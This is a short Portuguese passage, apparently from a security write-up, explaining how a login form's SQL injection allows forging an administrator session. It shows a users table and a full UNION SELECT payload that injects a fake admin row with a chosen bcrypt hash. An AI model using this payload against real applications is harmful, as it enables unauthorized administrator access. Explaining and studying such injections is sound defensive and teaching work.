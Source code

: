 Nào sei se este é o nome correto, mas é apenas um caso. Abaixo está a tabela na qual a aplicação consulta para o login. Nosso usuário não tem permissão de administrador, e nem podemos modifica-lo.
```sql
+----+---------------------+---------+----------+---------------------+
| id | email               | name    | is_admin | password            |
+----+---------------------+---------+----------+---------------------+
| 2  | nycolas@nycolas.com | nycolas | 0        | $2y$12$4QaJE89ORfSH |
+----+---------------------+---------+----------+----------------------
```

Mas há um SQL Injecton na aplicação que nos possibilita usar o UNION. Após descobrir as colunas necessárias podemos fazer algo como.
```sql
email=n' UNION SELECT 1,'admin','admin@admin.com','$2y$12$4QaJE89ORfSH.dIHYgVv2.ia6j29FrGttXLcip2or4kB8prMPY2Ju',1 -- -&password=nycolas
```
Assim simulamos o retorno de um usuário admin do banco de dados.